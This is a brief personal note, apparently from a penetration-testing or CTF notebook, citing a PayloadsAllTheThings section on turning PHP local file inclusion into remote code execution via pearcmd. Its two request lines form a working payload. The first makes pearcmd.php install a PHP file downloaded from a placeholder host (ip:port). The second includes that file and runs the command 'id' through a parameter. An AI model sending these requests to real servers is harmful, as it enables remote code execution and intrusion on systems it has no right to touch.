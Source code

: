 # Notes

Ref: <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-php-pearcmd>

```text
?x=/usr/local/lib/php/pearcmd.php & +install+http://ip:port/idk.php
?x=/tmp/pear/download/idk.php&c=id
```
